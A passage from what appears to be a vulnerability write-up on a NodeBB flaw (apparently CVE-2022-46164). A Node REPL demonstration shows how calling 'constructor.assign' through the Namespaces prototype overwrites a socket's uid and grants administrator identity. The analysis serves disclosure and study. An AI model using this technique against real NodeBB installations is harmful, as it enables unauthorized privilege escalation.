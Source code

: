 <figure><img src="/assets/img/cve202246164_image8.jpg" alt="Accessing the assign function through Namespaces array index" /><figcaption align = "center">Fig.8 - Accessing the assign function through Namespaces array index</figcaption></figure>

This snippet run in the node REPL shows how this attack will work. We set initial values for `socket`, `Namespaces` and `params` to mimic NodeBB operating as a non admin. 

We set `Namespaces` to its empty default state, which still contains the prototype.

We set `socket` with a `uid` of `2` and an additional mock value we want to remain unchanged. 

We set `params` to an object where `uid` is `1`. This is our desired value for `uid` in `socket`. 

Then we assign the `assign` function to `methodToCall` using the `Namespaces` prototype. This is functionally the manner in which NodeBB operates if passed `constructor.assign` as a function name.

Finally we call `methodToCall` in the same way that NodeBB does. 

```
node
Welcome to Node.js v16.18.1.
Type ".help" for more information.
> Namespaces = {}
{}
> socket = {'uid': 2, 'otherThing': 'value'}
{ uid: 2, otherThing: 'value' }
> params = {'uid': 1}
{ uid: 1 }
> methodToCall = Namespaces['constructor']['assign']
[Function: assign]
> methodToCall(socket, params, (err, result) => {callback(err ? { message: err.message } : null, result);})
{ uid: 1, otherThing: 'value' }
> socket
{ uid: 1, otherThing: 'value' }
>
```
